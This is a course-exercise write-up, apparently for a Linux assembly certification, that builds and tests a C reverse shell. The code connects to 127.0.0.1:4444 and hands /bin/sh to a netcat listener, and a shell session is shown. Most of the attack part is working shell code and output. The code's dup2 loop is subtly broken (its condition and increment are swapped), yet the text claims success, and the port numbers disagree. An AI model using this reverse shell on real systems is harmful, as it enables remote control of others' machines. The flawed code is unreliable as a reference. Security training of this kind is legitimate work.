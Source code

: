 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 14183.

This is part 1/4 of the exercice 2.

# Exo 2 - Reverse shellcode - Part 1 - C Reverse Shell

### C Reverse Shell - Creation

Reverse shell creation is simpler in a C point of view. First a socket is created, then a connection to the target is done and at last STDIN/STDOUT/STDERR are redirect and execve is run.

The reverse shell starts and ends as the bind shell

```
int main()
{
	int my_socket = socket(AF_INET, SOCK_STREAM, 0);

	// NEW THINGS HERE 

	int i;
	for(i = 0; i++; i <3)
		dup2(client, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}
```

*Socket *usage is easy to understant using the manual

```
NAME
       connect - initiate a connection on a socket

SYNOPSIS
       #include <sys/types.h>
       #include <sys/socket.h>

       int connect(int sockfd, const struct sockaddr *addr,
                   socklen_t addrlen);
```

Again a *sockaddr* structure must be created, the only change here is we are using our target IP address. In order to have an C formated IP address, *inet_addr *function is used.

From the manual:
```
The inet_addr() function converts the Internet host address cp from IPv4 numbers-and-dots notation into binary data in network byte order.
```

### C Reverse Shell - Final code
```
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET, SOCK_STREAM, 0);
	struct sockaddr_in my_sockaddr;
	my_sockaddr.sin_family = AF_INET;
    	my_sockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");
    	my_sockaddr.sin_port = htons(4444);

    	connect(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	int i;
	for(i = 0; i++; i <3)
		dup2(my_socket, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}

```
### Testing the reverse shell

First, the C file is compiled.
```
cervoise@slae:~/exam/reverse$ gcc reverse_shell.c -o reverse_shell
```
Then netcat is used to listen on port 444
```
cervoise@slae:~/exam/reverse$ nc -lv 4444
```

And by running the ELF binary, a (local) reverse shell is gain
```
cervoise@slae:~/exam/reverse$ ./reverse_shell 
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
```

# Exo 2 - Reverse shellcode - Part 2 - Reverse Shellcode

# Exo 2 - Reverse shellcode - Part 3 - Optimized Reverse Shellcode

# Exo 2 - Reverse shellcode - Part 4 - Reverse Shellcode Generator
